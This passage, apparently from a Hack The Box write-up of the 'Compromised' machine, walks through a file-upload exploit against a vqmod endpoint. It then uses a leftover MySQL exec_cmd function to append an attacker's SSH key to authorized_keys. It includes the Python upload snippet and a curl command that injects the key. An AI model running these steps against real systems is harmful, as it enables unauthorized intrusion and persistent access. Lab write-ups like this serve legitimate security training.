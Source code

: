 And modify our exploit to read from `mysql.php`.

```python
files =
{
    'vqmod': (rand + ".php", open('mysql.php').read(), "application/xml"),
    'token':one,
    'upload':(None,"Upload")
}
```

Let's give it a shot.

{% include image.html image_alt="8a1d1bd3.png" image_src="/93ee34f6-74ca-497c-9631-f0f65044a19b/8a1d1bd3.png" %}

Looking good.

{% include image.html image_alt="9c2dd704.png" image_src="/93ee34f6-74ca-497c-9631-f0f65044a19b/9c2dd704.png" %}

Oh yeah!

## Foothold

Lo and behold, the attacker left something neat for us.

{% include image.html image_alt="8759d9e7.png" image_src="/93ee34f6-74ca-497c-9631-f0f65044a19b/8759d9e7.png" %}

If I had to guess, I would say that's a user-defined function for command execution! Armed with that, we can now inject a SSH-ED25519 keypair (it's short and sweet) we control to `/var/lib/mysql/.ssh/authorized_keys` like so.

```
# ssh-keygen -t ed25519 -f mysql
# curl -s \
       -G \
       --data-urlencode "0=select exec_cmd('echo $(cat mysql.pub) >> ~/.ssh/authorized_keys');" \
       http://compromised.htb/shop/vqmod/xml/7F35L.php
```

{% include image.html image_alt="a4c9f095.png" image_src="/93ee34f6-74ca-497c-9631-f0f65044a19b/a4c9f095.png" %}

Sweet.

### Getting `user.txt`

During enumeration of `mysql`'s account, I notice the presence of `strace-log.dat` in the home directory.

{% include image.html image_alt="a574b981.png" image_src="/93ee34f6-74ca-497c-9631-f0f65044a19b/a574b981.png" %}

Looks like someone has been using `strace` and saving the output to `strace-log.dat`. This struck me as odd so I took a look at it. And guess what I found.
